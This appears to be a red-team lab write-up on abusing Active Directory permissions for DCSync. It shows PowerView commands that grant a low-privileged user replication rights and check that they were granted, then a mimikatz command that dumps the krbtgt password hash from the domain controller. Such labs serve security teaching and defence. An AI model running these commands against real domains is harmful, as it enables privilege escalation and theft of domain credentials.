 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663%28v=vs.85%29.aspx)” extended right \(this one isn’t always needed but we can add it just in case :\)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-18-32.png)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endtab %}
{% endtabs %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-02.png)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-09.png)

Let's grab the SID of the user spotless with `whoami /all`:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-28-18.png)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-27-54.png)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-15-11-36.png)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-34-44%20%281%29.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}

